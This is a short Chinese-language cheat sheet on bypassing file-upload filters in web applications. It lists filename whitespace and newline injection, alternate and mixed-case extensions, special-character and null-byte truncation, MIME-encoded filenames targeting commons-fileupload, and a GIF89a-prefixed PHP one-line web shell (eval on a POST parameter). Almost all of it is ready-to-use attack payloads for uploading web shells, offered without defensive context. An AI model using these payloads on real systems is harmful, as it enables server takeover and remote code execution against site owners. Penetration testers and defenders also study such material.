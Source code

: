 ## 文件不解析
上传html文件不解析，修改`Content-Type: text/html`来设置文件格式

## 名称/后缀检测绕过
### 黑白名单判断
瞎写一个文件后缀，如上传 `tx` 可以，上传jsp不行，则上传限制为黑名单控制。

### 在filename字符左右加上一些空白字符
`filename="1.jsp"  ->  %20filename%0a="1.jsp"`

%20：空格	%0a：换行

或者后缀使用空格：

`后缀中间加空格：.js p	后缀后面加两个空格再加正常的后缀：a.jsp  .xls`

### 文件内容检测绕过
文件头：Content-Type: image/jpeg

文件内容：

 GIF89a?

 <?php

 Eval($_POST["pass"]);

(有可能会检测文件内容，例如不允许有危险函数eval)

### java特殊编码绕过（针对commons-fileupload组件）
`filename="=?gbk?Q?=31=2e=6a=73=70?="`

`filename="=?utf-8?B?MS5qc3A=?="`

文章：[https://y4tacker.github.io/2022/02/25/year/2022/2/Java%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%A4%A7%E6%9D%80%E5%99%A8-%E7%BB%95waf(%E9%92%88%E5%AF%B9commons-fileupload%E7%BB%84%E4%BB%B6)/#%E4%BD%A0%E4%BB%A5%E4%B8%BA%E5%B0%B1%E8%BF%99%E5%B0%B1%E5%AE%8C%E4%BA%86%EF%BC%9F](https://y4tacker.github.io/2022/02/25/year/2022/2/Java%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%A4%A7%E6%9D%80%E5%99%A8-%E7%BB%95waf(%E9%92%88%E5%AF%B9commons-fileupload%E7%BB%84%E4%BB%B6)/#%E4%BD%A0%E4%BB%A5%E4%B8%BA%E5%B0%B1%E8%BF%99%E5%B0%B1%E5%AE%8C%E4%BA%86%EF%BC%9F)

### 名称替换绕过
aspx&asp：ashx、asa、asmx、cer、cdx、ascx、asac  
php：pht、php3、php5、phtml、shtml  
jsp：jspx、jspf

### 后缀大小写检测绕过
Php、PHP、jsP

### 后缀添加特殊字符
`:、空格、::$DATA、.,$,/.,=等字符`，`: `只针对windows系统，会将后面的截断

### 截断绕过
`: ; %00 ’ ^`等符号截断，windows成功率比较高，因为windows在创建文件时这些特殊字符是不允许出现的。

